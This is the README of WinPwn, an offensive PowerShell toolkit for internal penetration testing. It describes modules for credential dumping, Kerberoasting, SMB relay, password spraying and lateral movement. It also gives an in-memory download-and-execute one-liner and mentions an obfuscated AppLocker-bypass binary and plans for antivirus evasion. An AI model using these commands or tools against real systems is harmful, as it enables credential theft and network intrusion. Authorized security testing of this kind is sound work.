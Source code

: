 # WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. I often ran the same scripts one after the other to get information about the current system and/or the domain. To automate this process and for the proxy reason I wrote my own script with automatic proxy recognition and integration. 
The script is mostly based on well-known large other offensive security Powershell projects. They are loaded into RAM via IEX Downloadstring.

Yes it is not a C# and it may be flagged by antivirus solutions. Windows Defender for example blocks some of the known scripts/functions. Maybe someday a C# Version will follow.

Any suggestions, feedback and comments are welcome!

Just Import the Modules with:
`Import-Module .\WinPwn_v0.7.ps1` or 
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.7.ps1')`

Functions available after Import:
1. #### `WinPwn` -> Guides the user through all functions/Modules with simple questions.
2. #### `Inveigh` -> Executes Inveigh in a new Console window , SMB-Relay attacks with Session management (Invoke-TheHash) integrated
3. #### `sessionGopher` -> Executes Sessiongopher Asking you for parameters
4. #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz
5. #### `localreconmodules` -> Collects infosec relevant system Information, Executes passhunt, Get-Computerdetails and Just another Windows Privilege escalation script + Winspect
6. #### `JAWS` -> Just another Windows Privilege Escalation script
7. #### `domainreconmodules` -> 
  * Powerview function output gets stored on disk for review. 
  * A search for AD-Passwords in description fields is done. 
  * Unconstrained delegation systems/users are enumerated. 
  * SQL Server discovery and Auditing functions (default credentials, passwords in the database and more).
  * MS-RPRN Check for Domaincontrollers
  * An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon. 
8. #### `Privescmodules` -> Executes different privesc scripts in memory (PowerUp Allchecks, Sherlock, GPPPasswords)
9. #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) 
10. #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. DomainPassword-Spray for new Credentials can also be used here.
11. #### `empirelauncher` -> Launch powershell empire oneliner on remote Systems
12. #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder (Powerview / Powersploit)
13. #### `groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
14. #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
15. #### `powerSQL` -> SQL Server discovery, Check access with current user, Audit for default credentials + UNCPath Injection Attacks
16. #### `Sharphound` -> Downloads Sharphound and collects Information for the Bloodhound DB
17. #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record and run Inveigh for mass hash gathering.


The "oBEJHzXyARrq.exe"-Executable is an obfuscated Version of jaredhaights PSAttack Tool for Applocker/PS-Restriction Bypass (https://github.com/jaredhaight/PSAttack).

## TO-DO
- [x] Some obfuskation
- [ ] More obfuscation
- [ ] Proxy via PAC-File support
- [x] Get the scripts from my own creds repository (https://github.com/SecureThisShit/Creds) to be independent from changes in the original repositories
- [ ] More Recon/Exploitation functions
- [ ] msDS-AllowedToActOnBehalfOfOtherIdentity Ressource based constrained delegation

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)

## CREDITS

- [X] [Kevin-Robertson](https://github.com/Kevin-Robertson/) - Inveigh, Powermad, Invoke-TheHash
- [X] [Arvanaghi](https://github.com/Arvanaghi/) - SessionGopher
- [X] [PowerShellMafia](https://github.com/PowerShellMafia/) - Powersploit
- [X] [Dionach](https://github.com/Dionach/) - PassHunt
- [X] [A-mIn3](https://github.com/A-mIn3/) - WINSpect
- [X] [411Hall](https://github.com/411Hall/) - JAWS
- [X] [sense-of-security](https://github.com/sense-of-security/) - ADrecon
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Sherlock
- [X] [AlessandroZ](https://github.com/AlessandroZ/) - LaZagne
- [X] [samratashok](https://github.com/samratashok/) - nishang
- [X] [leechristensen](https://github.com/leechristensen/) - Random Repo
- [X] [HarmJ0y](https://github.com/HarmJ0y) - Many good Blogposts, Gists and Scripts
- [X] [NETSPI](https://github.com/NetSPI/) - PowerUpSQL

## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
